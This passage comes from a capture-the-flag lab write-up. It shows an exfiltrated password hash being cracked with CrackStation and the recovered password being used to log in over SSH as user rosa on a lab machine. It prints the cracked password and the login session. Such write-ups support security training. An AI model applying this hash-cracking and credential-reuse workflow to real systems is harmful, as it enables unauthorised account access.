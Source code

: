 ```c

[*] ending @ 14:53:39 /2025-02-02/
```

### Cracking the Hash

We tested the exfiltrated `hashes` on `CrackStation` and got lucky on `rosa's hash`.

- [https://crackstation.net/](https://crackstation.net/)

| Hash                             | Password           |
| -------------------------------- | ------------------ |
| ac369922d560f17d6eeb8b2c7dec498c | soyunaprincesarosa |

### SSH Access as rosa

With the `already cracked password` of `rosa` we were able to login via `SSH`.

```c
┌──(kali㉿kali)-[~]
└─$ ssh rosa@10.129.73.41
The authenticity of host '10.129.73.41 (10.129.73.41)' can't be established.
ED25519 key fingerprint is SHA256:tsmOV3JuQkCv6HNUqg9YQ+DJznLS2nYKJl4zIwKtbE4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.73.41' (ED25519) to the list of known hosts.
rosa@10.129.73.41's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 02 Feb 2025 03:15:49 PM UTC

  System load:           0.2
  Usage of /:            53.9% of 6.06GB
  Memory usage:          19%
  Swap usage:            0%
  Processes:             239
  Users logged in:       0
  IPv4 address for eth0: 10.129.73.41
  IPv6 address for eth0: dead:beef::250:56ff:fe94:f934


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Sat Sep 28 15:44:52 2024 from 192.168.1.64
rosa@cat:~$
```
